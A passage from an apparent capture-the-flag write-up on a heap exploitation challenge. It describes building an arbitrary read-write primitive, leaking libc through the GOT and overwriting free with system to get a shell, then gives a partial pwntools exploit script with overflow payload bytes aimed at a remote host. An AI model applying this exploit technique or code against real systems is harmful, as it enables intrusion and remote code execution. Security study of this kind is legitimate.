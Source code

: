 To build a decent primitive arbitrary read-write. We made `slots[20]` pointing
to `slots[21]`. And both were chunks allocated with size 8. By writing in
`slots[20]` we set the `address` of our primitive. by reading-writing
`slots[21]`, we exploit the read-write.

With this primitive, we can, by reading the value of puts in .got, get a leak of
libc. We can compute the position of the `system,` and we can substitute free in
.got with the `system`. At this point, we just need to free a chunk which
content is `/bin/sh\x00` to get a shell.

### The script

```python
from pwn import *

r = remote("13.112.193.37", 8573)

def alloca_slot(slot, size):
    assert(slot <= 0x400)
    assert((size & 0x80000000) == 0)
    r.sendline("1")
    r.recvuntil("slot>\n")
    r.sendline("%d" % slot)
    r.recvuntil("size>\n")
    r.sendline("%d" % size)

def write_slot(slot, data):
    assert(slot <= 0x400)
    r.sendline("2")
    r.recvuntil("slot>\n")
    r.sendline("%d" % slot)
    r.send(data)

def free_slot(slot):
    assert(slot <= 0x400)
    r.sendline("3")
    r.recvuntil("slot>\n")
    r.sendline("%d" % slot)

def parse_slot(slot):
    assert(slot <= 0x400)
    r.sendline("4")
    r.recvuntil("slot>\n")
    r.sendline("%d" % slot)

def print_slot(slot):
    assert(slot <= 0x400)
    r.sendline("5")
    r.recvuntil("slot>\n")
    r.sendline("%d" % slot)
    return r.recvuntil("op>\n")[:-4]


# lens = b"\x41" * 40
# data = b"\x10\xef\xfd\xb6\xf5\x0d" + b"\x0a"+bytes([len(lens),]) +  lens
# print(data)

overflow = b"\x0a\x0b\x41\x41\x41\x41\x41\x41\x41\x41\x41\x60"
pass_data = b"\x10\xef\xfd\xb6\xf5\x0d"
filling = b"\x08" * 1090 + b"\x0a\x02\x80\x08"

data = pass_data + filling + overflow

chunk_size = 0x458
```
